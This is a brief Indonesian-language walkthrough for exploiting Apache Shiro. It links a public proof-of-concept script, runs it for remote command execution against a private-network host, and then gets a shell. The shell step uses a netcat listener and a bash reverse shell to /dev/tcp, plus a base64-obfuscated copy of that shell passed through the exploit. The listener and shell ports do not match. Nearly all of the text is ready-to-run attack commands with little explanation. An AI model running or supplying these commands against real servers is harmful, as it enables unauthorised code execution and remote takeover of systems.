 <languages   />

POC
---

<https://github.com/insightglacier/Shiro_exploit>

Eksploitasi
-----------

    python3 shiro_exploit.py -t 3 -u http://192.168.2.147:8080 -p "touch a.txt"

Perintah berhasil dijalankan.

Getshell
--------

Mesin pemantau menjalankan perintah berikut:

    nc -lvp 666

Mesin korban menjalankan perintah berikut:

    bash -i >& /dev/tcp/192.168.2.130/6666 0>&1
    bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuMTMwLzY2NjYgMD4mMQ==}|{base64,-d}|{bash,-i}

    python3 shiro_exploit.py -t 3 -u http://192.168.2.147:8080 -p "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuMTMwLzY2NjYgMD4mMQ==}|{base64,-d}|{bash,-i}"